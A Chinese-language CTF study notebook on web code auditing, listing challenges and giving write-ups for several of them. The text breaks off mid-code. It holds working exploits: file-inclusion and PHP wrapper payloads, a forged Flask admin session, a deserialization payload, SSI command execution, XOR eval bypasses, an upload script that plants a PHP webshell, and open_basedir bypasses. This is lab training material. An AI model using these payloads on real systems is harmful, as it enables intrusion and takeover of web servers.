










[toc]


# 代码审计

## 目录

### 简单

-   ~~[HCTF 2018] WarmUp 难度：简单 知识点：初步的代码审计和文件包含~~
-   ~~[BJDCTF2020]Mark loves cat 简单的代码审计，变量覆盖~~

### 签到

-   ~~[HCTF 2018]admin 中等难度的题目，解法较多，分别有jwt伪造，条件竞争和unicode欺骗~~
-   ~~[ZJCTF 2019]NiZhuanSiWe 基础的代码审计，解法较多，php伪协议~~
-   ~~[BJDCTF2020]EasySearch 除了注入以外还会有Apache SSI 远程命令执行漏洞~~
-   ~~[HarekazeCTF2019]encode_and_encode 编码绕过~~
-   ~~[SUCTF 2019]EasyWeb 当年比较难的题目，现在这些考点被干碎了再出现就只能做签到了~~
-   [安洵杯 2019]不是文件上传 介乎于签到和中等之间，多个考点重合在一起了
-   ~~[N1CTF 2018]eating_cms~~
-   ~~[PASECA2019] honey_shop 读取环境变量，介乎于签到和中等之间~~
-   ~~Phuck2~~
-   [网鼎杯 2020 总决赛]Game Exp

### 中等

-   [De1CTF 2019]SSRF Me Flask 字符串拼接带来的安全问题
-   [HFCTF2020]EasyLogin jwt伪造
-   [SCTF2019]Flag Shop ruby 代码审计
-   [DDCTF 2019]homebrew event loop 逻辑漏洞
-   [XDCTF 2015]filemanager
-   [PwnThyBytes 2019]Baby_SQL
-   [SWPUCTF 2016]Web blogsys 哈希拓展攻击，逻辑漏洞
-   [PWNHUB 公开赛 2018]傻 fufu 的工作日 加解密逻辑最好自己能够掌握。
-   [CISCN2019 东北赛区 Day2 Web3]Point System
-   [HBCTF2017]大美西安
-   [N1CTF 2018]easy_harder_php soap_ssrf 非常经典的题目
-   [Zer0pts2020]notepad python反序列化

### 困难

-   [网鼎杯 2020 半决赛]faka 中等偏难
-   [RoarCTF 2019]PHPShe
-   [护网杯 2018]easy_laravel
-   [HMBCTF 2021]EzLight 红帽杯就3解还是几解我记得。
-   [HITCON 2017]Baby^h Master PHP Apache-prefork模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256个child server, 这时候如果用户大量请求, Apache就会在处理完MaxRequestsPerChild个tcp连接后kill掉这个进程,开启一个新进程处理请求
-   [CISCN2019 总决赛 Day2 Web2]Laravel File Manager 参考文章：https://blog.szfszf.top/article/39/ 也是国赛经典不让人做
-   Real World CTF 2018 Bookhub


### 脑洞

-   [羊城杯 2020]Blackcat 要听歌的WEB题目== 2020🐏城杯的题目感觉..

## Writeup

### [HCTF 2018] WarmUp

提示source.php

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

接收file，不为空，是字符串，满足emmm::checkFile

flag在ffffllllaaaagggg

```php
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

从输入\$page的第一个？开始截取，之后返回true

```
source.php?file=source.php?../../../../../../../../../ffffllllaaaagggg
source.php?file=source.php?/../../../../../../../../../ffffllllaaaagggg
source.php?file=source.php?./../../../../../../../../../ffffllllaaaagggg
```

### [BJDCTF2020]Mark loves cat


### [HCTF 2018]admin

提示不是admin，注册了也显示不是admin

#### 解法一：Unicode欺骗

`https://unicode-table.com/en/1D2E/ `这个网站找字符

#### 解法二：flask session伪造

再change password里面：`https://github.com/woadsl1234/hctf_flask/ `

flask写的，看下路由

```python
@app.route('/code')
def get_code():

@app.route('/index')
def index():

@app.route('/register', methods = ['GET', 'POST'])
def register():

@app.route('/login', methods = ['GET', 'POST'])
def login():

@app.route('/logout')
def logout():

@app.route('/change', methods = ['GET', 'POST'])
def change():

@app.route('/edit', methods = ['GET', 'POST'])
def edit():
```


>   flask中session是存储在客户端cookie中的，也就是存储在本地。flask仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。
>   具体可参考：
>   https://xz.aliyun.com/t/3569
>   https://www.leavesongs.com/PENETRATION/client-session-security.html#

使用脚本解密下session

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```


```sh
python .\session.py .eJw9kEFuwjAQRa9SzZoFcWATiU3lYIE0g1wNQeMNamkosWMqJaBAEHevxaIXeO_9_4D9sav7ExSX7lpPYN98Q_GAty8oAH11Ir_2Gz4MqG2GZnsTDoPbyXyjt8px2xCHueMqOm8z8XYmTC2aKpAuc9QUKKISjwOZdesijqjKKY7LSErmwj934XIgLTnyNndcjskZ0LggcR1kPLXEq5G48qjwhn4ZSFURPU6dKZMPU8MyNdgFPCdw6Lvj_vIb6vP_BNLUSMol8xFRvzcyWkWqTFqrnF9lju2NjMzczsWEuaORXOzihTt_xjohMpXDBK593b2-gWwKzz9vs2Me.YdfLeA.VeulXD6Mdg2_9S59f8L0urPGapI        
{'_fresh': True, '_id': b'25a62c9700450e1a90ef9856e9b599e5ff45b48a3e0ed41703d6c6b304befc33a431f7f9a82a10467157e1325d0fdbbdc8e52355c3c121d7ef234da5b36e1b54', 'csrf_token': b'43baf94df00bc467a2a46f25e414f8eff5420f7a', 'name': '123', 'user_id': '10'}
```

`{'_fresh': True, '_id': b'25a62c9700450e1a90ef9856e9b599e5ff45b48a3e0ed41703d6c6b304befc33a431f7f9a82a10467157e1325d0fdbbdc8e52355c3c121d7ef234da5b36e1b54', 'csrf_token': b'43baf94df00bc467a2a46f25e414f8eff5420f7a', 'name': '123', 'user_id': '10'}`

如果想要加密伪造生成自己想要的session还需要知道SECRET_KEY，config.py里发现了SECRET_KEY

`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`



一个flask session加密的脚本：`https://github.com/noraj/flask-session-cookie-manager`

```sh
python flask_session_cookie_manager3.py encode -s "ckj123" -t "'_fresh': True, '_id': b'25a62c9700450e1a90ef9856e9b599e5ff45b48a3 e0ed41703d6c6b304befc33a431f7f9a82a10467157e1325d0fdbbdc8e52355c3c121d7ef234da5b36e1b54', 'csrf_token': b'43baf94df00bc467a2a46f25e4144f8eff5420f7a', 'name': 'admin', 'user_id': '10'}"
.eJw9kEFuwjAQRa9SzZoFccgGiU3lYIE0g1wNQeMNohBK7JhKARQI4u61WPQC773_n7A9dvXlBNNrd6tHsG0OMH3CxzdMAX11Ir_0K973qG2GZn0XDr3bSLHSa-W4bYhD4biKzttMvJ0IU4umCqTLHDUFiqjEY09m2bqIA6pyjMM8kpJC-OchXPakJUde547LITkDGhckLoMMp5Z4MRBXHhXe0c8DqSqix7EzZfJhapinBjuD1wj2l-64vf6G-vw_gTQ1knLJfEXUn40MVpEqk9Yq5xeZY3snIxO3cTFhHmgkFzt74867WCfE7hCbM4zgdqm79zuQjeH1B0iVZJE.YdfOlA.blCrYfgFhjLnD1ZC3mUkZXSmZbE
```

### [ZJCTF 2019]NiZhuanSiWe

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

`file_get_contents`将文件内容读到`$text`

使用php://input伪协议在以POST形式传入“ welcome to the zjctf "  也可以用data伪协议传参

`enctype=”multipart/form-data” 的时候 php://input 是无效的`



或者

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

之后提示useless.php，使用php://filter来读

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php`

```php 
<?php 
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
本地序列化:
$password=new Flag();
$password = serialize($password);
echo $password; 
?>  
```

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  
```

最终payload：`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

### [BJDCTF2020]EasySearch

swp源码泄露

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

首先是随机获取文件名的一个函数，password的前六位的MD5为6d0bc1，之后在public文件夹下建个shtml，


```python
import hashlib


def md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()


for i in range(10000000):
    if(md5(str(i)).startswith('6d0bc1')):
        print(i)
        break
# 2020666
```






shtml是一种用于SSI技术的文件。

会对shtml文件特殊招待。 先扫一次shtml文件看没有特殊的SSI指令现在。

有就按Web Server设定规则解释SSI指令。 解释完后跟一般html一起掉去客户端。

SSI注入漏洞，可以在username变量中传入ssi语句来远程执行系统命令。

>   （shtml是一种基于SSI技术的文件。SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。IIS和Apache都可以开启SSI功能）
>
>   （SSI注入的条件：
>
>   1.Web 服务器已支持SSI（服务器端包含）
>
>   2.Web 应用程序未对对相关SSI关键字做过滤
>
>   3.Web 应用程序在返回响应的HTML页面时，嵌入用户输入）

payload :`<!--#exec cmd="ls ../"-->`

### [HarekazeCTF2019]encode_and_encode 

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

传入的post内容会被json_decode，之后判断是否有banword里面的内容。json编码
payload：

`{ "page" : "\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}`

`{"page":"\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067"}`

### [SUCTF 2019]EasyWeb

>   PHP异或绕过个Preg_match()：https://www.cnblogs.com/cimuhuashuimu/p/11546422.html

```php
<?php
function get_the_flag() {
	// webadmin will remove your upload file every 20 min!!!! 
	$userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
	if(!file_exists($userdir)) {
		mkdir($userdir);
	}
	if(!empty($_FILES["file"])) {
		$tmp_name = $_FILES["file"]["tmp_name"];//已上传文件在服务器端保存的临时文件名，包含路径
		$name = $_FILES["file"]["name"];//客户端上传文件的原名称，不包含路径
		$extension = substr($name, strrpos($name,".")+1);
		if(preg_match("/ph/i",$extension)) 
            die("^_^");
		if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) 
            die("^_^");
		if(!exif_imagetype($tmp_name)) 
            die("^_^");
		$path= $userdir."/".$name;
		@move_uploaded_file($tmp_name, $path);
		print_r($path);
	}
}
$hhh = @$_GET['_'];
if (!$hhh) {
	highlight_file(__FILE__);
}
if(strlen($hhh)>18) {
	die('One inch long, one inch strong!');
}
if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');
$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");
eval($hhh);
?>
```

通过eval调用get_the_flag

可以出现的字符：

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($a))){
        echo chr($a)." ";
    }
}
```

在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

在PHP中，两个变量进行异或时，先会将字符串转换成ASCII值，再将ASCII值转换成二进制再进行异或，异或完，又将结果从二进制转换成了ASCII值，再将ASCII值转换成字符串。异或操作有时也被用来交换两个变量的值

```php
<?php
$l = "";
$r = "";
$argv = str_split("_GET");
for($i=0;$i<count($argv);$i++)
{
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);      \\dechex(255) = ff
        if($k == $argv[$i]){
        	if($j<16){
        		$l .= "%ff";
                $r .= "%0" . dechex($j);
        		continue;
        	}
            $l .= "%ff";
            $r .= "%" . dechex($j);
            continue;
        }
    }
}
echo "\{$l`$r\}";
?>
//{%ff%ff%ff%ff`%a0%b8%ba%ab}
```

所以构造：`/?_=${%A0%B8%BA%AB^%ff%ff%ff%ff}{%A0}();&%A0=phpinfo`或者`/?_=${%ff%ff%ff%ff^%A0%B8%BA%AB}{%A0}();&%A0=phpinfo`可以访问phpinfo

```
##  1^2=2^1
## 这里值得注意的是${_GET}{%A0}就等于$_GET[%A0],%A0是一个字符虽然没有被引号引起来但是php也不会将他看出是变量，这就是为什么&_GET[cmd]=&_GET["cmd"] 了。
## 还有一个特性是$a=phpinfo 如果执行$a() 就相当于执行了phpinfo()
```

接下来，过滤了ph开头的后缀，又过滤了<?，黑名单限制，但是没有禁用.htaccess，可以构造.htaccess修改可读的php文件，利用.htaccess绕过

```python
import requests
import time

url = r"http://9fd4f5c0-f1b8-4e4b-9c10-c4de6f143333.node4.buuoj.cn:81/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"
session = requests.session()
htaccess_content = '''
#define width 1337
#define height 1337
AddType application/x-httpd-php .a
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.a"
'''
files_htaccess = {'file': (
    '.htaccess', htaccess_content, 'image/jpeg')}
res_hta = session.post(url, files=files_htaccess)
print(res_hta.text)
shell_file = 'GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs/Pg=='
files_shell = {'file': (
    'shell.a', shell_file, 'image/jpeg')}
res_jpg = session.post(url, files=files_shell)

print(res_jpg.text)

```

htaccess的配置信息

>   AddType application/x-httpd-php .test   ###将1.test以php的方式解析
>   php_value auto_append_file  "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_fd40c7f4125a9b9ff1a4e75d293e3080/1.test"
>   \##在1.test加载完毕后，再次包含base64解码后的1.test，成功getshell，所以这也就是为什么会出现两次1.test内容的原因，第一次是没有经过base64解密的，第二次是经过解密并且转化为php了的。

蚁剑连上之后看不了其他目录

[bypass open_basedir的新方法](https://xz.aliyun.com/t/4720)

扫目录：`cmd=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir("/"));`

读文件：`chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('/THis_Is_tHe_F14g'));`


### [N1CTF 2018]eating_cms

尝试注册页面注册，

之后的url是这个样子：`http://d3b136f1-031c-4ec7-9841-c9ae9ad3bd68.node4.buuoj.cn:81/user.php?page=guest`

伪协议读源码：`user.php?page=php://filter/convert.base64-encode/resource=user`

```php+HTML
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```

继续读function.php

```php
<?php
session_start();
require_once "config.php";
function Hacker()
{
    Header("Location: hacker.php");
    die();
}


function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function Filter($string)
{
    global $mysqli;
